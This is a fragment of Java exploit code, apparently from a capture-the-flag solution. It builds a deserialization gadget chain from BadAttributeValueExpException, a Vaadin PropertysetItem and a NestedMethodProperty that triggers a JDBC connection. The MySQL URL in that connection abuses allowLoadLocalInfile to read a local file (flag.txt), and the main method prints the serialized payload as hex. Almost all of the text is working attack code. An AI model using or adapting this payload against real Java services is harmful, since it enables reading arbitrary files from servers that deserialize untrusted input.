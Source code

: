 ```java
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] ser(Object obj) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(bos);
        out.writeObject(obj);
        out.flush();
        return bos.toByteArray();
    }
    public static String bytesToHexString(byte[] bArray) {
        StringBuffer sb = new StringBuffer(bArray.length);
        for (byte b : bArray) {
            String sTemp = Integer.toHexString(255 &amp; b);
            if (sTemp.length() &lt; 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static void main(String[] args) throws Exception {

        MyBean myBean =new MyBean();
        myBean.setDatabase("mysql://xxx:3306/test?user=fileread_file:///flag.txt&amp;ALLOWLOADLOCALINFILE=true&amp;maxAllowedPacket=65536&amp;allowUrlInLocalInfile=true#");

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty nmprop = new NestedMethodProperty(myBean, "Connection");
        pItem.addItemProperty("Connection", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

        // 序列化并输出 HEX 序列化结果
        System.out.println(bytesToHexString(ser(exception)));

    }
}
```
